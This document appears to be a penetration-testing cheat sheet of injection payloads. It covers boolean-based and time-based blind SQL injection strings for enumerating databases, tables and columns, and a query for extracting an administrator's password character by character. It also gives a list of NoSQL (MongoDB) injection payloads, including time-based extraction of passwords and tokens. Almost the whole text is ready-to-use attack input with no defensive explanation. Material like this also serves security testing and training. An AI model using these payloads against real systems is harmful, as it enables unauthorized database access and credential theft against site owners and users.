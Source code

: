 ## Blind SQLi (Boolean) ##

Change param in url. 

PARAM VALUE' union select 1,2,3;--

PARAM VALUE' union select 1,2,3 where database() like 'a%';-- (Will help get DB)

PARAM VALUE' union select 1,2,3 from information_schema.tables where table_schema = 'DB NAME' and table_name like 'a%';-- (Will help get tables)

PARAM VALUE' union select 1,2,3 from information_schema.columns where table_schema ='DB NAME' and table_name='TABLE NAME' and column_name like 'a%'; (Will help get columns)

PARAM VALUE' union select 1,2,3 from users where username like 'a% Will help get values from table and columns)

Simple Blind Query to pull administrator password. Substring is comparing password and pulling out the 7th character and starting at posistion 1.

' AND (SELECT SUBSTRING(password,7,1) FROM users WHERE username='administrator')='$Burp Marker$;

## Blind SQLi (Time) ##

Change param in url.

### TEST for SQLI Time Based ###

PARAM VALUE' union select SLEEP(5),2;--

PARAM VALUE' union select SLEEP(5),2 where database() like 'a%';-- (Will help get DB)

PARAM VALUE' union select SLEEP(5),2 from information_schema.tables where table_schema = 'DB NAME' and table_name like 'a%';-- (Will help get tables)

PARAM VALUE' union select SLEEP(5),2 from information_schema.columns where table_schema ='DB NAME' and table_name='TABLE NAME' and column_name like 'a%'; (Will help get columns)

PARAM VALUE' union select SLEEP(5),2 from users where username like 'a% Will help get values from table and columns)

NoSQL Injection Payloads
true, $where: '1 == 1'
, $where: '1 == 1'
$where: '1 == 1'
', $where: '1 == 1'
1, $where: '1 == 1'
{ $ne: 1 }
', $or: [ {}, { 'a':'a
' } ], $comment:'successful MongoDB injection'
db.injection.insert({success:1});
db.injection.insert({success:1});return 1;db.stores.mapReduce(function() { { emit(1,1
|| 1==1
' && this.password.match(/.*/)//+%00
' && this.passwordzz.match(/.*/)//+%00
'%20%26%26%20this.password.match(/.*/)//+%00
'%20%26%26%20this.passwordzz.match(/.*/)//+%00
{$gt: ''}
[$ne]=1
';return 'a'=='a' && ''=='
";return(true);var xyz='a
0;return true
username=test"+((this.username.match('^b.*')) ? sleep(5000) : sleep(100))+"&password=x
username=test%22%2b((this.token.match('.*'))%20%3f%20sleep(3000)%20%3a%20sleep(100))%2b%22&password=x

